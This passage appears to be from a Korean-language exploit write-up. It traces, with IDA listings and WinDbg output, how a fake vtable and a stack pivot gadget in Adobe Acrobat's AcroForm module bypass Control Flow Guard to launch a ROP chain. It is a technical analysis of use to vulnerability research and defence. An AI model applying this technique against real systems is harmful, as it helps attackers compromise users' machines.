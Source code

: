 ```nasm
.rdata:211315C0 ; const AXTEFontAccess::`vftable'
.rdata:211315C0 ??_7AXTEFontAccess@@6B@ dd offset sub_20DFFBE0
.rdata:211315C0                                         ; DATA XREF: sub_20DFF7B6+21↑o
.rdata:211315C0                                         ; sub_20DFFAAA+6↑o
                                       ....
.rdata:21131674                 dd offset sub_20EFAA60
                                       ....
```

따라서 아래와 같이 `ntdll!LdrpValidateUserCallTarget`의 검사를 통과하고 호출될 수 있습니다

```
eax=20000158 ebx=00000001 ecx=63eeaa60 edx=0be950e0 esi=63eeaa60 edi=63a89990
eip=63a89a3b esp=0457c170 ebp=0457c19c iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200202
AcroForm!hb_ot_tags_to_script_and_language+0x68f9b:
63a89a3b ff153ca9fc63    call    dword ptr [AcroForm!DllUnregisterServer+0x50e8dc (63fca93c)] ds:002b:63fca93c={ntdll!LdrpValidateUserCallTarget (777c88e0)}
0:000> p
eax=0c7dd54c ebx=00000001 ecx=63eeaa60 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63a89a41 esp=0457c170 ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!hb_ot_tags_to_script_and_language+0x68fa1:
63a89a41 8b4dec          mov     ecx,dword ptr [ebp-14h] ss:002b:0457c188=10c7d038
0:000> p
eax=0c7dd54c ebx=00000001 ecx=10c7d038 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63a89a44 esp=0457c170 ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!hb_ot_tags_to_script_and_language+0x68fa4:
63a89a44 ffd6            call    esi {AcroForm!DllUnregisterServer+0x42ea00 (63eeaa60)}
```

이후 호출된 `sub_20EFAA60`에서 `mov eax, [ecx]`가 실행되면서 ecx(`this`)가 가리키는 Fake vtable의 주소(0x20000158)가 eax에 저장됩니다. 이후 `call dword ptr [eax + 30h]`에 의해 Fake vtable + 0x30에 저장된 stack pivot 가젯이 호출됩니다. `sub_20EFAA60`에서 발생하는 간접 호출에서는 CFG 검사가 이루어지지 않기 때문에 ROP 가젯을 호출하는 것이 가능하고 이를 통해 CFG를 우회합니다.

```
eax=0c7dd54c ebx=00000001 ecx=10c7d038 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63eeaa60 esp=0457c16c ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!DllUnregisterServer+0x42ea00:
63eeaa60 8b01            mov     eax,dword ptr [ecx]  ds:002b:10c7d038=20000158
0:000> t
eax=20000158 ebx=00000001 ecx=10c7d038 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63eeaa62 esp=0457c16c ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!DllUnregisterServer+0x42ea02:
63eeaa62 6a0d            push    0Dh
0:000> t
eax=20000158 ebx=00000001 ecx=10c7d038 edx=00005000 esi=63eeaa60 edi=63a89990
eip=63eeaa64 esp=0457c168 ebp=0457c19c iopl=0         nv up ei pl zr na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200247
AcroForm!DllUnregisterServer+0x42ea04:
63eeaa64 ff5030          call    dword ptr [eax+30h]  ds:002b:20000188=63a46984
0:000> u 63a46984
AcroForm!hb_ot_tags_to_script_and_language+0x25ee4:
63a46984 8be0            mov     esp,eax
63a46986 ffc9            dec     ecx
63a46988 c3              ret
```
